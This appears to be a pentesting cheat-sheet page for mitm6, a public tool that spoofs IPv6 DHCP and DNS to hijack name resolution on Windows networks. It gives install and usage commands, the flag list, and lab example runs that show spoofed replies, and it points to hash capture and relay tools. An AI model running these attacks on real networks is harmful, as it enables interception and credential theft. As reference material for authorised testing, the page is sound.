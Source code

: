 ```yaml
---
title : "Mitm6"
# pre : ' '
description : "mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server."
date : 2020-05-16T14:54:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Mitm6

"pwning IPv4 via IPv6" - mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server.

## Installation

```plain
sudo python3 -m pip install mitm6
```

## Usage

```plain
mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS] [-m ADDRESS] [-a] [-v] [--debug] [-d DOMAIN] [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]
```

## Flags

```plain
mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/fox-it/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default: autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default: autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default: mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which detect rogue Router Advertisements)
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Whitelist principle, multiple can be specified.)
  -b DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blacklist principle, multiple can be specified.)
  -hw DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Whitelist principle, multiple can be specified.)
  -hb DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blacklist principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully Qualified Domain Name (FQDN) option.
```

## Examples

### ATTENTION

To run mitm6 without interrupting the use of internet from the clients, you need to forward packets do this by running the following besides mitm6.

```plain
watch -n1 sudo sysctl -w net.ipv4.ip_forward=1
```

### Use tool to route whole network

Tip: use [Responder]({{< ref "responder" >}}) to capture hashes or [NTLMrelayx.py]({{< ref "ntlmrelayx-py" >}}) to relay hashes.

```plain
$ sudo mitm6

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:00:00:00:b3]
IPv4 address: 10.10.10.45
IPv6 address: fe80::a00:27ff:fede:92b3
Warning: Not filtering on any domain, mitm6 will reply to all DNS queries.
Unless this is what you want, specify at least one domain with -d
IPv6 address fe80::4865:1 is now assigned to mac=00:00:00:00:00:29 host=WS10.offsec.nl. ipv4=
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
IPv6 address fe80::4865:3 is now assigned to mac=00:00:00:00:00:27 host=DC2019.offsec.nl. ipv4=
IPv6 address fe80::4865:4 is now assigned to mac=00:00:00:00:00:2b host=kali ipv4=
IPv6 address fe80::4865:5 is now assigned to mac=00:00:00:00:00:31 host=adguard-lab ipv4=
Sent spoofed reply for client.wns.windows.com. to fe80::4865:1
Sent spoofed reply for v10.events.data.microsoft.com. to fe80::4865:1
```

### Specific target

```plain
sudo mitm6 -i eth0 -hw DC2016.offsec.nl
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
```

## URL List

* [GitHub.com - mitm6](https://github.com/fox-it/mitm6)
